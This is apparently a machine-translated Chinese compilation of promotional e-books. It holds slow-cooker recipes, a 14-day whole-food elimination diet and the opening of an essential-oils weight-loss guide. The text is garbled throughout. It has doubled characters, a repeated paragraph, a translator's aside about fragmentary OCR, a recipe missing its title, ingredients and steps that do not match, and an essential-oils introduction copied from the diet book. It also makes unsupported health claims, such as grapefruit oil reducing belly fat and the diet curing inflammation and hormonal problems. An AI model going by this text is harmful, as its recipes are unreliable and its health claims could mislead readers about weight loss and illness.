食材：番茄（2.5磅）、大蒜（1头）、橄榄油（1 茶匙）、黄洋葱（1个）、罐装番茄（14盎司）、鸡汤（1/2 杯）、盐（1 茶匙）、新鲜黑胡椒（1/2 茶匙）、白糖（1 茶匙）、红辣椒碎（1/4 茶匙）、辣椒粉（1/4 茶匙）、新鲜罗勒碎（2 汤匙）、淡奶油（1/2 杯）、阿达戈芝士（4盎司）、罗勒（2 茶匙）。

制作方法：

首先将烤箱预热至400°F（200°C）。用铝箔包裹大蒜放入烤箱烤，加入少量橄榄油（烤约25分钟）。将番茄放入沸水中（约3分钟）。在冷水中去番茄皮，去核后放入慢锅。将烤好的蒜加入慢锅，连同其他原料（淡奶油、阿达戈芝士和罗勒除）。烹饪约三小时（高火）。蔬菜做好后，将它们放入搅拌机，连同淡奶油和芝士（可以留一点芝士装饰）。将番茄汤倒入碗中，撒上芝士。享用！

## #4 慢锅普罗旺烩

总耗时：4 小时（准备10分钟，烹饪3小时50分钟）

份量：6-8人份

食材：橄榄油（1/4 杯）、红洋葱（2个）、土豆（3个）、大蒜瓣（3瓣）、茄子（2个）、西葫芦（3个）、甜椒（4个）、番茄（3个）、波特菇（4个）、白葡萄酒（1/4 杯）、新鲜百里香叶（2 汤匙）、黑醋（3 汤匙）、海盐（适量）、新鲜百里香。

黑胡椒（适量），玉米粉（2 汤）。

## 制作方法：

首先将切好的洋葱、切好的土豆和大蒜末一起煎炒。炒几分钟后转移到慢锅中。在锅中加入以下食材：茄子、西葫芦、各种甜椒、番茄、波罗菇、白葡萄酒和新鲜百香叶。煮三个半小时（低火）。此阶段结束后，将慢锅调至高火，加入意大利香脂醋、犹太盐和新鲜黑胡椒。将玉米粉与水（6 汤）混合，并将混合物加入慢锅。再煮 20 分钟（高火）。装盘享用即可！

## #5 意大利千面

总耗时：5 小 30 分。（5 分准备，5 小 25 分烹饪）

份量：5 人份

食材：
- 碎牛肉（1/2 磅）
- 意大利香肠（1/2 磅）
- 盐（1 1/2 茶匙）
- 胡椒（1/2 茶匙）
- 洋葱（1 个）
- 意大利调料（1 茶匙）
- 欧芹（2 汤）
- 蒜粉（2 茶匙）
- 伍斯特斯特酱（2 汤）
- 番茄膏（6 盎司）
- 番茄酱（29 盎司）
- 砂糖（2 汤）
- 水（2 1/2 杯）
- 意大利千面面（8 盎司）
- 碎马苏里拉奶士（4 杯）
- 农村奶酪（1 杯）
- 碎帕玛森奶士（1/2 杯）

制作方法：

首先在平锅中用中火将碎牛肉、意大利香肠和洋葱一起煎褐色。向锅中加入以下食材：盐、胡椒、欧芹、蒜粉、意大利调料、伍斯特酱、番茄膏和番茄酱、糖和水。混合均匀并煮约 20 分钟。在慢锅底部加入 1/4 的肉酱。然后，在上方铺 1/3 的意大利千面面。将马苏里拉奶士与农村奶酪和帕玛森奶士混合，铺在千面上 1/3 处。重复上述步骤两次。在顶部加入剩余的肉酱和马苏里拉奶士（如果需要）。煮约 5 小时（低火）。装盘享用即可！

## 第 5 章：慢锅甜点食谱

我们都喜欢吃甜点，但有时我们确实没有时间去真正制作。不过，有了慢锅，你可以以 100% 简单且愉快的方式准备各种美味甜点。阅读下文，发现美味的慢锅甜点食谱！

## #1 桃子饼酥

总耗时：3 小 30 分。（15 分准备，3 小 15 分烹饪）
份量：4-6 人份

食材：
- 红糖糖（6 盎司）
- 燕麦片（3 和 ½ 盎司）
- 面粉（4 盎司）
- 烘打粉（1/2 茶匙）
- 肉肉豆蔻粉（1/2 茶匙）
- 肉蔻（1/2 茶匙）
- 犹太盐（1/4 茶匙）
- 无盐黄油（1/4 杯）
- 冷冻桃子片（20 盎司）

制作方法：

取一个大碗，混合以下食材：糖、燕麦、面粉、烘打粉、肉肉豆蔻粉、肉蔻和犹太盐。加入碗中前确保黄油已恢复室温。混合均匀，直到获得碎屑状。将桃子片加入混合物中。用少量黄油涂抹慢锅内壁。将混合物加入慢锅，煮约三个小时（低火）。装盘享用即可！

## #2 巧克力糖果

总耗时：3 小 25 分。（5 分准备，20 分静置，3 小烹饪）

制作量：30-40 颗糖果

食材：
- 盐味干烤花生（2 磅）
- 巧克力（4 盎司）
- 半甜巧克力碎（2 杯）
- 白色杏仁糖皮（2 和 ½ 磅）

制作方法：

首先将盐味干烤花生放在慢锅底部。完成后，将巧克力连同巧克力碎和白色杏仁糖皮一起加入慢锅。在低火下煮混合物约三小时，不要搅拌。时间过后，用木勺搅拌，直到获得光滑的质地。用勺子将混合物放入单独的纸杯杯中。让混合物冷却，装盘享用！

## #3 甜美多汁浆果甜点

总耗时：4 小 40 分。（20 分准备，20 分静置，4 小烹饪）

份量：6-8 人份

食材：
- 馅料——无盐黄油、玉米粉（1/4 杯）、柠檬汁（2 汤）、冷冻混合果（5 和 ½ 杯）、砂糖（2/3 杯）
- 饼干顶层——面粉（1 和 ¼ 杯）、砂糖（3 汤）、烘打粉（1 茶匙）、细盐（1 小撮）、无盐黄油（4 汤）、牛奶（3/4 杯）、磨碎肉桂粉（1/4 茶匙）
- 打发酸奶油——淡奶油（1/2 杯）、酸奶油（1/4 杯）、糖粉（2 汤）

制作方法：

首先涂抹慢锅内壁。然后，将玉米粉与柠檬汁和两汤水混合。将混合物加入慢锅，连同混合浆果和糖。通过将面粉与两汤砂糖、盐和烘打粉混合来准备饼干顶层。将淡奶油、酸奶油和糖粉混合制成打发酸奶油。将面粉与黄油混合。将混合物加入慢锅，混合均匀。打发酸奶油，将混合物加入慢锅。将混合物放入慢锅。煮约四小时（低火）。淋上打发酸奶油，装盘享用。

## #4 胡萝卜蛋糕

总耗时：3 小 10 分。（45 分准备，2.5 小烹饪）

份量：12 人份

食材：
- 糖（1 杯）
- 鸡蛋（2 个）
- 水（1/4 杯）
- 植物油（1/3 杯）
- 面粉（1 和 ⅛ 杯）
- 香精（1 茶匙）
- 烘打粉（1 茶匙）
- 小苏打（1 茶匙）
- 肉桂粉（1/2 茶匙）
- 胡萝卜（擦丝）
- 顶层——奶油酪糖霜

制作方法：

首先去皮并擦丝胡萝卜。完成后，在一个碗中混合以下食材：糖、鸡蛋、水和油。混合均匀后加入面粉、烘打粉、肉桂粉和小苏打。涂抹慢锅并放入混合物。煮约两小时（低火）。当牙签拔出来是干净的，说明蛋糕做好了。冷却后，淋上奶油酪糖霜，装盘享用！

## #5 巧克力布朗尼

总耗时：3 小 40 分。（10 分准备，3 小 30 分烹饪）

份量：11 人份

食材：
- 细砂糖（125 克）
- 烘打粉（1 茶匙）
- 黑巧克力（110 克）
- 无盐黄油（60 克）
- 可可粉（30 克）
- 牛奶巧克力（110 克）
- 鸡蛋（3 个）
- 海盐（1 茶匙）
- 巧克力碎（125 克）
- 核桃（100 克）
- 普通面粉（160 克）

制作方法：

首先涂抹慢锅并铺上烘焙纸。取一个碗混合以下食材：面粉、可可、盐和烘打粉。在微波炉中融化黄油和巧克力（巧克力碎除外）。融化后，加入搅拌鸡蛋和糖。加入面粉混合物，然后加入核桃和巧克力碎。将所有食材放入慢锅，煮约三个半小时。冷却后装盘享用。

# 14天全食饮食计划

增加代谢、提升能量与减重的全食食谱

*关于我最喜爱的饮食的额外信息*

*另在 KindleBookSpot.com 获得更多免费和廉价书籍*

## 目录

引言

第 1 章：你的全食指南

第 2 章：需要要素要素

第 3 章：14天计划

第 4 章：早餐

第 5 章：午餐

第 6 章：晚餐

第 7 章：零食

结

## 引言

感谢你的下载，并祝贺你选择了《14天全食挑战：增加代谢、提升能量与减重的全食食谱》。

这本书包含了关于如何感觉更健康、增加能量以及过上快乐生活方式的行之步骤和策略。

为什么当大多数人一想到健康和健身时，他们的直觉是感到沮丧，并表现得好像这个想法根本不存在一样呢？诚然，我们不能都成为健身专家，但如果你真的想要恢复体形并感觉更好，确实有一些技术可以帮助你努力获得一直想要的线条。无论是减肥还是获得更多能量，使用全食饮食都是一个极佳的开始。

虽然随着年龄增长，身体的自然能量水平会下降，但这并不意味着你应该放弃健康目标。无论你处于人生的哪个阶段，你仍然可以做很多事情来改善你的身心健康，而阅读这本书就是通往一直渴望的生活的第一步。

这本书的设计旨在教你如何开始使用全食过上更健康、更绿色的生活方式。它并不是为了成为帮助你快速减肥并感觉更健康的时尚风潮，但它应该鼓励你使用全食来做出更健康的生活选择，并在过程中重塑你的生活方式。

## 这本书将教你：

- 哪些食物应该是你的朋友，而哪些不应该是
- 为什么你应该吃全食
- 如何完成这14天的挑战
- 早餐、午餐、晚餐和零食食谱
- 以及更多更多内容！

所以，你还在等什么？现在就开始阅读，并从今天起改变你的生活方式吧！

再次感谢你下载这本书，希望你喜欢！

不要忘记查看文章底部我最喜爱的饮食之一，并学习我如何通过期3周饮食快速减掉顽固的多余脂肪的策略。

# 第 1 章：你的全食指南

## 什么是全食饮食？

全食是一项通过消除不健康食物来帮助你改善健康和减轻的计划。越来越多的人正在与过度斗斗，遭受代谢功能障碍的影响，并感到精疲力竭。饮食在我们身体运作中起着巨大的作用，这也是全食饮食的核心理念。当你消除对你有害的食物组，如糖、谷物或乳制品时，你正在迈向理想生活的第一步。

专家们对全食饮食的组织确保了成功。基本上，在短时间范围内，你将消除所有对你不利的食物，不再有激素功能障碍，不再有胃肠紊，也没有炎症。身体将治愈并恢复，代谢将重新正常运行。你会感到神清气爽、充满活力，并以自然的方式开始减肥。整个30计划旨在改变你对食物的认知，帮助你发现健康的选择并忘记坏习惯或渴望。

由于市上有这么多饮食，问自己这与一个有何不同是正常的。只需想想这样一个事实：它很容易遵循，因为它实际上是一种排除疗法。由于你必须从饮食中排除某些食物组，因此不允许任何作弊或放纵。很快，在你还没意识到之前，你就开始享受食用完整且简单的食物了。因为，到最后，这才是你应该为身体考虑的燃料。

## 开始准备

一位智者曾说，改变从不是易事的。但这并不意味着你不能从中找到快乐。全食饮食背后的食物哲学鼓励简单饮食，但即使是最简单的餐食也能带来巨大的快乐。现在是激发灵感的最好时机，让你的创造力在厨房中达到新的新的高度。不要浪费时间纠结于那些你不被允许食用的食物，而要开辟新领域，探索新的食谱并变得精致。

正如你将在下一章节中看到的，建议你总是带着清单去购物。所以，当你开始走这条路时，请务必记住坚持你的购物清单。务必在清单上添加大量的蔬菜，因为这些将成为许多餐食的一部分。当然，如果你看到任何特产产品，例如一些漂亮的茄子或新品种的茶，你可以稍微偏离清单。记住，仅限于你被允许拥有的物品。

考虑提前计划你的饮食，这样可以减少屈于渴望的风险。这在涉及到蛋白质来源时尤为有效，因为它们将帮助你应对计划初期的初始饥饿感。在冰箱里储备富含蛋白质的食物，如野生长鲑、金枪鱼、牛肉或鸡蛋。确保你有足够的数量。说到准备工作，确保你的储藏室有香料和酱料，因为这些将帮助你度过最艰难的时刻。

智者言：不要去碰你不被允许吃的食物。

## 为什么要选择全食？

全食是一项通过消除不健康食物来帮助你改善健康和减轻的计划。越来越多的人正在与过度斗争，遭受代谢功能障碍的影响，并感到精疲力竭。饮食在我们身体运作中起着巨大的作用，这也是全食饮食的核心理念。当你消除对你有害的食物组，如糖、谷物或乳制品时，你正在迈向理想生活的第一步。

（注：原文提供的OCR文本在后半部分存在重复或碎片化。我已根据提供的清晰标题进行了逻辑处理。）

# 第 2 章：需要要素要素

## 需要避免的事物

首先，你应该从饮食中消除糖和所有基于糖的产品。这包括真糖和人造糖，因此你必须告别枫糖浆、龙果蜜、蜂蜜和甜菊醇。同样重要的是，你必须检查购买的每种产品的标签，因为它可能代表隐藏的糖源。酒精也是禁止的，包括在食物制作中使用。

另一个在名单上的主要食物组是由谷物代表的。在该类中，你会发现：藜麦、米、玉米、燕麦、大麦、黑麦和小麦。这些只是几个例子，你通常需要避免涉及谷物的一切。和糖一样，要仔细阅读各种产品的标签，因为小麦和其他谷物经常被作为基础原料。

豆类，如豆类、豌豆、扁豆、鹰嘴豆和花生，也在禁名单上。由于不允许食用花生，你可以理解为什么花生酱是不可能的。同样的情况也适用于大豆和任何豆衍生制品，如酱油或豆腐。请记住，豆衍生制品经常被用作各种产品的乳化剂，因此再次检查标签以查看大豆脂。

应该避免乳制品，无论它们源自牛、羊还是山羊。不允许摄奶油、奶酪或酸奶。此规则的唯一例外包括酥油和澄清油。你还必须拒绝味味精、硫酸盐和卡拉胶，因为这些是包含在加工食品或饮料中的添加剂。

# 关键食材

这些是考虑全食饮食计划时需要关注的关键食材：

- 澄清油或酥油 – 购买黄油并学习如何澄清
- 果汁 – 在某些食谱中，可以作为甜味剂
- “荚状”豆类 – 荷兰豆、甜豆和豆角
- 醋 – 大多数形式都是接受的（白醋、香醋、苹果醋等）
- 盐 – 即使加碘盐含有糖，也是被接受的（不含糖规则的唯一例外）
- 杏仁粉 – 肉类裹粉、酱汁增稠
- 苹果酱 – 推荐作为关键食材，只要是未加糖的
- 牛肉或鸡汤 – 自制，避免购买的
- 肉 – 鸡肉、牛肉
- 鱼类 – 金枪鱼、野生鲑鱼
- 蔬菜 – 罐装或新鲜（后者为佳）；推荐选择包括南瓜、西瓜或红薯
- 可可 – 增加风味道的极佳香料
- 椰子脂 – 也称为椰子霜
- 椰子 – 可以作为零食食用，片状或碎状；推荐有机椰子（不含亚硫酸盐）
- 椰奶 – 最佳选择全脂（不含硫酸盐）
- 椰子油 – 最佳选择未精炼
- 咖喱酱 – 如果你热爱印度或亚洲菜系，这是不可或缺的食材
- 鱼露 – 避免含糖的产品（阅读标签）
- 辣酱 – 再次阅读标签，确保它不含任何禁忌成分
- 肉干 – 完美的零食，只要没有添加糖
- 芥末 – 需要阅读标签（不含糖或淀粉）
- 坚果和种子 – 美味的零食，可以生吃或烘烤
- 坚果酱 – 有机，无添加糖
- 橄榄 – 可以罐装或新鲜食用，品种均可（不含亚硫酸盐）
- 橄榄油 – 基础食材，无论你想制作酱汁、酱汁还是整顿饭（你甚至可以用它制作简单的自制蛋美滋）
- 干果 – 不要大量食用
- 西番柿 – 许多菜肴的关键食材
- 腌菜 – 只要标签上没有禁忌成分即可食用。

# 购物购物

你购物清单的首要任务应该是动物蛋白，因为肉、鱼和蛋应该涵盖你对这类营养素的需求。至于肉类，务必寻找草饲或有机品种。多买一些保存在冷冻室以备后用。钱不够？寻找更便宜的替代品，如牛肉、羊肉或山羊。将鸡肉和猪肉放在第二位。购买有机鸡蛋，因为它们不贵，仍然很好的蛋白质来源。对于肉类，始终选择部位并确保在烹饪前切掉脂肪和皮。拒绝加工肉，如培根或香肠，因为这些不是健康饮食的一部分。

处理完蛋白质后，开始蔬菜并确保储备。始终选择当地和季节性的蔬菜，因为它们非常便宜且能提供最高的营养。购买营养丰富的蔬菜是个好主意，因为它将帮助你控制饥饿感。对于预算有限，可以考虑冷冻蔬菜。对于水果，同样的规则：当地和季节。非季水果通常很贵，而且不够新鲜美味。如果你在寻找廉价的替代品，考虑冷冻水果，如浆果。

最后一个要处理的类别是脂肪。在购物清单中加入油、坚果和种子，记住，仅仅因为产品贵并不意味着它健康。选择明智购物，购买如罐装椰奶或牛油果等产品。两者都能提供足够的健康脂肪且全年可用。购买椰子油和橄榄油放在储藏室里，不要忘记澄清油或酥油。对于坚果和种子，始终选择生食或干焙的品种。并确保不要让它们成为你主要的脂肪来源，因为这不是一个健康的选择。

# 外食（餐厅）

在减肥期间外出可能似乎是一项无法完成的任务。然而，只要稍作准备，你就可以出去享受一顿美食，同时坚持你的饮食计划。所以，你想要做的第一件事是在线查看餐厅的菜单；这样，你就可以确保有你想吃的美味食物，而不必担心任何禁忌成分。

仅仅因为你在减肥，并不意味着你必须向每个人解释你自己。无论你做什么，人们都会评判你，所以不要浪费时间试图说服别人为什么要开始这种改变。只需享受一顿好的晚餐并享受你自己。然而，困难的部分将是共共进并看到别人盘子里有你不允许食的食物。这就是考验意志的时候。专注于你自己的盘子和美味的食物，忘记那些不能吃的食物。想想你感觉有多好，并将那种情绪与你正在吃的食物联系起来。这将帮助你度过这个困难时期，并鼓励你很快再次外出！

# 第3章：14天计划

# 概述

尽管原始计划设计为期30天，但你可以从该计划的短期版本开始这条新路径。14天计划旨在帮助你改变饮食习惯，让身体重新获得健康的饮食习惯。正如你在下面的指南中看到的，每天都会带来不同的体验，你可能会想放弃。然而，你必须不断提醒自己起初为什么要走这条路，不要放弃。最后，你会发现一切都是值得的。

# 14天计划（指南）

# 第1天 – 迎接改变

在第一天，你可能会在不同的情绪之间挣扎。一方面，你会感到精力充沛，知道巨大的变化即将到来。另一方面，你会担心这也会让你应不暇交。是的，你会花费许多小时思考在没有最喜欢的食物的情况下该如何生活。拥抱改变以及随之来的美好，开始你的冒险吧。

# 第2-3天 – 初步副作用显现

这些日子你很有可能经历头痛、各种疼痛和酸痛，更不用说你会感到非常大脑模糊。当你预期会感觉很好时，这怎么会发生呢？嗯，想想你习惯食用的食物。它们富含糖、碳水化合物，几乎没有提供任何营养。基本上，你宿醉反应的强度直接取决于你在开始计划之前消耗的坏“食物”数量。所以，不要关注糟糕的一面，放松心情度过好的一天。确保保持水分充足，并尝试通过体育运动补偿。只要不放弃。

# 第4-5天 – 易躁占据主

早晨。太阳升起。你不再感到大脑模糊，觉得这将会是美好的一天。直到你起床。你突然感到易躁，并意识到这种感觉变得更加剧烈。每个人看起来都很烦人，即使是微小的错误也会让你变得很糟糕。不要压力。这只是你的身体索要它习惯的奖励。没有糖和碳水化合物，大脑还不知道如何运作。所以，它让你感到易躁、压力大甚至焦虑。再次放慢节奏，并确保请求你爱的人原谅你。

# 第6-7天 – 午睡时间

在这两天里，你会发现自己比平时需要更多的睡眠。无论你如何努力，你都会发现无法像预期的那样运作良好。这是因为你的大脑以及身体其他部分学会了依赖糖来运作。在自己不知道的情况下，你训练了大脑每几小时接受一次糖供应。现在，当你准备改变这一点时，你的大脑（以及身体其他部分）会经历一个调整期。别担心，确保为大脑提供必要的休息。这将使适应过程更容易。而且，好消息，你已经完成了计划的一半！

# 第8-9天 – 我怎么会胖了？

当有人告诉你一个新的饮食计划时，你首先想到的是

实际体重的减轻。所以，当你站在秤上时，你本应该看到数字变少，而不是变多。请记住，增加几磅是正常的，身体正在适应新的饮食。你不再依赖劣质的营养素，除了轻微的体重增加外，还可能经历其他的“调整”症状，如腹胀、腹泻或便秘。别担心，这些症状很快就会消失，肠道水平的炎症会消除，愈合过程也将开始。一旦你的身体开始高效地处理新食物，你也将开始减轻体重。

# 第 10-11 天 – 诱惑与放弃

在这两天里，时间过得会感觉很慢。你可能会产生放弃并回到糟糕饮食习惯的冲动，因为现在这种饮食计划的新鲜感已经消失。尽管你已经成功适应了新的节奏，但诱惑似乎越来越多地包围着你，让你既烦躁又不耐烦。好了，小家伙，耐心是关键。不要放弃，始终考虑长期收益。如果你想健康并减掉所有多余的体重，就对诱惑说不，继续走这条路。

# 第 12-13 天 – 几近终点

这些日子让你感觉自己已经登上了珠穆朗玛峰。你已经征服了诱惑，大部分负面症状现在已经消失。所以，像大多数人一样，你可能想送自己一份礼物（尤其是现在你几乎快被那些做过的食物之梦所折磨了）。好了，如果你是一个坚强的人，先不要庆祝。再等一两天再进行正式的庆祝。

# 第 14 天 – 终于到来

你从未认为会到来的这一天到了。现在你有充分的理由庆祝。你已经成功告别了富含糖分和碳水化合物、毫无营养价值的食物。相反，你已经在生活中拥抱了健康的食物选择，成功远离了诱惑。你没有放弃，现在要做的就是继续这条路。保持坚强，记住健康是生命中最重要的财富。

# 第 4 章：早餐

早餐是全天中最重要的一餐，遗憾的是，我们许多人已经习惯了吃错误的东西。在告别甜点和贝面包后，你有了替代方案。让我们来看看一些最美味且营养丰富的全食物食谱。

## #1 辣三文鱼蛋饼 (Frittata)

食材：椰子油 (1 tbsp.)、青椒 (1)、洋葱 (1)、大蒜 (2瓣)、樱桃柿 (½ 杯)、孜然 (1 tsp.)、辣椒粉 (½ tsp.)、鸡蛋 (6)、罐装三文鱼 (½ 杯)、盐（适量）

做法：在锅中用椰子油炒青椒和洋葱，加入大蒜、孜然和辣椒粉。放入烤箱烤 15 分钟。撒上新鲜香菜即可！

## #2 红薯咸式派 (Quiche)

食材：红薯 (3)、椰子油 (2 tbsp.)、培根 (3片)、葱 (1把)、鸡蛋 (10)、盐 (3/4 tsp.)、肉蔻（¼ tsp.）

做法：预热烤箱至 400 °F。将红薯切成块并与椰子油、盐混合。放入烤箱烤 20 分钟。等红薯冷却后，在锅中炒洋葱。加入另一层（打好的鸡蛋）。放入烤箱以 350 °F 烤。撒上新鲜香菜即可！

## #3 橄榄吞金枪鱼饼

食材：冷藏红薯 (1 杯)、熟花菜花 (½ 杯)、罐装金枪鱼 (¼ 杯)、绿橄榄 (12)、盐（适量）、椰子油 (1 tbsp.)

做法：捣碎红薯。将其他食材加入碗中并用盐调味。做成饼状，在锅中用中火煎至金黄色。即可！

## #4 早餐沙拉

食材：橙子 (1/2)、黑李子 (1/2)、芹菜茎 (1)、黄瓜 (¼ 杯)、豆角 (¼ 杯)、牛油果 (1/2)、薄荷/欧芹 (1 tbsp.)、柠檬汁（一个柠檬）、盐和胡椒适量

做法：将所有食材混合在碗中。加入新鲜榨的柠檬汁、盐和胡椒即可！

## #5 早餐碗（墨西哥风）

食材：椰子油 (1 tsp.)、洋葱 (1/2)、青椒 (1 杯)、碎猪肉/鸡肉 (½ 磅)、干牛香草 (½ tsp.)、磨孜然（一小撮）、牛油果 (1)、莎莎 (2-4 tbsp.)、盐和胡椒适量

做法：在锅中炒洋葱和青椒。捣碎牛油果备用。加入猪肉或鸡肉，以及牛香草和孜然。用盐和胡椒调味。放入碗中。加入捣好的牛油果和莎莎。

# 第 5 章：午餐

如果你以健康的早餐开启新一天，你应该确保午餐同样健康。在本章中，你将发现许多全食物食谱，提供身体所需的所有营养。

## #1 泰式鸡汤

食材：鸡胸肉 (1 磅)、椰子油 (1 tsp.)、洋葱 (1)、青椒 (2)、西葫芦 (2)、甜豆 (6 oz.)、泰式咖喱酱 (2-3 tbsp.)、椰奶 (1 罐)、鱼露 (1 tsp.)、鸡汤汤 (4 杯)、干罗勒 (1-2 tbsp.)、柠檬汁 (½个柠檬)、新鲜香菜（适量）、葱 (1把)

做法：用椰子油炒洋葱和青椒，加入咖喱酱。将椰奶倒入锅中，加入西葫芦、椰子氨、鱼露、干罗勒和鸡汤。煮沸后加入鸡肉。鸡肉煮熟后加入甜豆。享用前加入柠檬汁、新鲜香菜和葱。

## #2 羽甘蓝、橄榄与鱼

食材：鱼肉 (1 磅)、嫩羽甘菜 (8 杯)、洋葱 (1)、卡拉马塔橄榄 (⅓ 杯)、柠檬汁 (一个柠檬)、新鲜香菜（一把）、特级初榨橄榄油 (¼ 杯)

做法：用橄榄油和柠檬汁腌制鱼。将嫩羽甘菜、洋葱、卡拉马塔橄榄、新鲜香菜和橄榄油加入碗中。锅中煎鱼约五分钟。配上沙拉食用即可！

## #3 烤咖喱鸡

食材：鸡腿 (12 只)；咖喱酱：椰子油 (2 tbs.)、洋葱 (1/2)、孜然籽 (1 tsp.)、孜然粉 (1 tsp.)、香菜粉 (1 tsp.)、姜黄粉 (1 tsp.)、印度喱粉 (½ tsp.)、肉桂粉 (¼ tsp.)、卡豆粉 (1/8 tsp.)、水 (4 tbs.)、番茄 (1)、椰奶 (4 tbs.)、新鲜大蒜 (4瓣)、生姜 (1 块)、凯尔特海盐 (1 tsp.)、新鲜香菜 (¼ 杯)

做法：锅中炒洋葱约五分钟，加入孜然籽。孜然籽透明后，加入孜然粉、香菜粉、姜黄粉、印度喱粉、肉桂粉和卡豆粉。离火冷却。将番茄与椰奶、大蒜、生姜、盐和香菜搅拌。将洋葱和香料加入搅拌机。加入水搅拌至光滑。裹上鸡腿放入烤箱烘烤。

鸡肉 (4 杯)、西芦 (2 杯)、椰浆 (⅓ 杯)、干大蒜 (1 tsp.)、新鲜香菜 (½ 杯)、柠檬汁 (½个柠檬)、适量

做法：除鸡肉外的所有食材放入搅拌机。将鸡肉切碎并加入混合物中。即可！

## #5 番茄橄榄西葫芦面沙拉

食材：西葫芦（5个）、海盐（2 茶匙）、橄榄油（1 汤）、白香醋（1 汤）、樱桃番茄（1 杯）、去核黑橄榄（1 杯）

制作方法：去西葫芦的皮并切成丝，撒上盐（沥掉多余水分）。加入橄榄油和醋。然后，加入切好的番茄和橄榄。享用吧！

## 第6 章：晚餐

在准备晚餐时，你希望它既轻盈、快速又简单。在本章中，你将找到许多美味的全食物食谱，推荐用于健康晚餐。让我们来看看吧。

## #1 泰式牛肉沙拉

食材：牛里脊肉（1 ½ 磅）、香菇（16个）、生姜（1 汤）、大蒜（4瓣）、红辣椒粉（1 茶匙）、奶油结生菜（4 杯）、红灯椒（1个）、红洋葱（1/2）、香菜（1/4 束）、罗勒叶（16片）、鱼露（1/4 杯）、柠檬汁（2 汤）、椰子油（1/4 杯）、盐和椒适量

制作方法：取一个碗，将牛肉与香菇、生姜、大蒜和辣椒粉混合。调味后备用。另取一个碗，将生菜与辣椒、洋葱、新鲜香菜和罗勒叶混合。将第一份混合物放入锅中炒至牛肉全熟。将鱼露加入锅中。将所有食材全部放入另一个碗中。享用吧！

## #2 洋葱汤

食材：椰子油（2 汤）、洋葱（8 杯）、意大利香醋（1 汤）、猪肉汤（6 杯）、盐（1 茶匙）、月桂叶（2片）、新鲜百荷（2 枝）

制作方法：将洋葱放入锅中炒香。加入意大利香醋和猪肉汤。取出月桂叶和百荷加入锅中。用盐调味。将混合物放入压力锅中煮熟，然后搅拌成汤（确保先取出月桂叶和百荷）。享用吧！

## #3 三文鱼牛油莎莎

食材：三文鱼（2 磅）、孜然（1 茶匙）、熏红椒粉（1 茶匙）、洋葱粉（1 茶匙）、椰子油（1 汤）、海盐和椒适量；牛油果莎莎：牛油果（2个）、红洋葱（1个）、墨西哥辣椒（3个）、柠檬汁（3个柠檬）、橄榄油（2 汤）、新鲜香菜（2 汤）、盐和椒适量

制作方法：取一个碗，加入牛油果莎莎的所有食材。然后将碗放入冰箱。混合三文鱼所需的所有香料并裹在鱼上。将三文鱼放入烤箱烤，并配牛油果莎莎食用。
享用吧！

## #4 腰果炒牛肉

食材：草饲饲牛肉糜（1 ½ 磅）、红灯椒（1个）、洋葱（1个）、水栗（1 罐）、生腰果（1/2 杯）、生姜（2 汤）、生大蒜（1 汤）、椰子氨酸（4 汤）、盐和椒适量

制作方法：炒牛肉直到其变为褐色。加入生姜、大蒜和椰子氨酸。然后加入红灯椒、洋葱和水栗。用盐和椒调味。加入烤过的腰果即可。
享用吧！

## #5 牛油果 BLT 鸡蛋沙拉食谱

食材：牛油果（1个）、鸡蛋（6个）、葡萄番茄（3/4 杯）、培根（4条）、小葱（1/2 杯）、蒜末（2 茶匙）、喜马拉雅海盐（1/2 茶匙）

制作方法：将鸡蛋煮至熟。将培根煎至脆。将鸡蛋与牛油果、蒜和喜马拉雅盐混合。加入切的培根、切半的番茄和切碎的小葱。享用吧！

## 第7 章：零食

全食物计划基于健康零食的概念，帮助你在两餐之间缓解饥饿。在本章中，你将找到几种健康零食的建议。务必过的所有建议并逐一尝试。

以下是你可以考虑的零食：

- Lara 棒
  - 水果和坚果混合物
  - 用肉桂和肉豆蔻原料调味
  - 无糖或无人工成分
  - 有不同品种（椰奶奶油派、香蕉面包、巧克力椰子软糖或腰果饼干）
  - 避免含有花生的品种（不允许）

- 干果类
  - 推荐——干苹果片
  - 用肉桂调味
  - 也可能含有柠檬酸

- 混合坚果
  - 口脆咸香的零食
  - 避免使用菜籽油/豆油炸过的混合坚果（不允许）
  - 混合物中不允许含有花生

## 昔

食材：冷冻莓果、菠菜、羽甘蓝、亚亚籽、香蕉、杏仁奶

制作方法：将所有食材混合搅拌至光滑即可享用

## 肉桂杏仁酱配苹果

切成苹果片，并在上面撒上肉桂

配一点杏仁酱食用

避免使用含有糖的杏仁酱（不允许）

## 鳄油酱

食材：牛油果、番茄、香料（牛至香）

制作方法：将所有食材混合搅拌，冷藏后食用

## 肉桂苹果酱

推荐——无糖苹果酱

有助于减少对糖的渴望

可以加入坚果（额外的蛋白质来源）

## 橄榄

完美的零食，无论什么品种都是

推荐——酿心橄榄

## 草饲牛肉肉干

避免那些含有人工色素的品种

## 马拉科纳杏仁

咸鲜美味的零食

避免那些用菜籽油烘烤的品种（不允许）

你可以购买生生的并加入盐或香料

## 南瓜子

满足饥饿的完美零食

也可以在烤箱中烘烤南瓜子。

## 结

再次感谢下载这本书！

我希望这本书能够帮助你理解全食物是多么简单、有趣且有效。

最后，如果你喜欢这本书，我想请你个忙，可以在亚马逊上为它留评论吗？将不胜感激！

点击此处为本书留评

## 精油神奇力量初学者指南

用于减肥、芳香疗法、缓解压力和抗老的精油配方

关于我最喜欢的饮食的额外信息

在 KindleSpot.com 获取更多免费和优惠书籍

## 目录

引言

第1 章 使用精油减肥

第2 章 使用精油进行芳香疗法

第3 章 使用精油缓解压力

第4 章 使用精油抗衰老

## 引言

我想感谢你下载这本书《精油神奇力量初学者指南》。

我希望这本书能够帮助你理解全食物是多么简单、有趣且有效。

最后，如果你喜欢这本书，我想请你个忙，可以够方便在亚马逊上为它留评论吗？将不胜感激！

点击此处为本书留评

# 为什么你应该使用精油

# 如何制作自己的

# 以及更多内容！

所以你还在等什么呢？开始阅读并从今天起改变你的生活方式吧！

再次感谢下载这本书，希望你喜欢它！

别忘了查看我最喜欢的饮食法之一，并学习我通过底部的“3周饮食法”快速减掉顽固多余脂肪的策略。

# 第1章 使用精油减肥

精油通常用于芳疗法，以镇静情绪、缓解压力并提升整体心情。减肥是使用精油的众多益处之一，尽管大多数人现在还没有意识到。如果方法得当并使用了正确的油，精油可以帮助有效安全地减肥。

## 葡萄柚精油

这种油通常用作消毒剂和防腐剂。葡萄柚精油有助于减肥。它清爽、提振的甜香气有助于达到理想体重。它通过以下作用发挥：

- 抑制食欲
- 提高代谢率
- 增加能量
- 增加耐力
- 减少腹部脂肪堆积

